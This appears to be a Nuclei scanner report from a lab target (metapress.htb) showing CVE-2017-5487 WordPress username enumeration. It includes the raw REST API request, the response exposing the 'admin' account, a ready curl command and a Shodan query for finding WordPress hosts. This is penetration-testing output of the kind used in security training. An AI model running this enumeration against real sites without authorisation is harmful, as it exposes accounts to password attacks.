 ### WordPress Core < 4.7.1 - Username Enumeration (CVE-2017-5487:usernames) found on http://metapress.htb
---
**Details**: **CVE-2017-5487:usernames**  matched at http://metapress.htb

**Protocol**: HTTP

**Full URL**: http://metapress.htb/wp-json/wp/v2/users/

**Timestamp**: Sat Nov 12 12:36:09 +0000 GMT 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Core < 4.7.1 - Username Enumeration |
| Authors | manas_harsh, daffainfo, geeknik, dr0pd34d |
| Tags | cve, cve2017, wordpress, wp, edb |
| Severity | medium |
| Description | WordPress Core < 4.7.1 is susceptible to user enumeration because it does not properly restrict listings of post authors via wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php in the REST API, which allows remote attackers to obtain sensitive information via a wp-json/wp/v2/users request. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) |
| CWE-ID | [CWE-200](https://cwe.mitre.org/data/definitions/200.html) |
| CVE-ID | [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-5487) |
| CVSS-Score | 5.30 |
| shodan-query | http.component:"WordPress" |
| verified | true |

**Request**
```http
GET /wp-json/wp/v2/users/ HTTP/1.1
Host: metapress.htb
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Allow: GET
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: application/json; charset=UTF-8
Date: Sat, 12 Nov 2022 12:36:08 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Link: <http://metapress.htb/wp-json/>; rel="https://api.w.org/"
Pragma: no-cache
Server: nginx/1.18.0
Set-Cookie: PHPSESSID=4iiodibd36tp5bvirgi967g6cb; path=/
Vary: Origin
X-Content-Type-Options: nosniff
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Wp-Total: 1
X-Wp-Totalpages: 1

[{"id":1,"name":"admin","url":"http:\/\/metapress.htb","description":"","link":"http:\/\/metapress.htb\/author\/admin\/","slug":"admin","avatar_urls":{"24":"http:\/\/2.gravatar.com\/avatar\/816499be5007457d126357a63115cd9c?s=24&d=mm&r=g","48":"http:\/\/2.gravatar.com\/avatar\/816499be5007457d126357a63115cd9c?s=48&d=mm&r=g","96":"http:\/\/2.gravatar.com\/avatar\/816499be5007457d126357a63115cd9c?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/\/metapress.htb\/wp-json\/wp\/v2\/users\/1"}],"collection":[{"href":"http:\/\/metapress.htb\/wp-json\/wp\/v2\/users"}]}}]
```

**Extra Information**

**Extracted results**:

- admin


References: 
- https://www.exploit-db.com/exploits/41497
- https://nvd.nist.gov/vuln/detail/cve-2017-5487
- https://www.wordfence.com/blog/2016/12/wordfence-blocks-username-harvesting-via-new-rest-api-wp-4-7/
- https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36' 'http://metapress.htb/wp-json/wp/v2/users/'
```
---
Generated by [Nuclei 2.7.8](https://github.com/projectdiscovery/nuclei)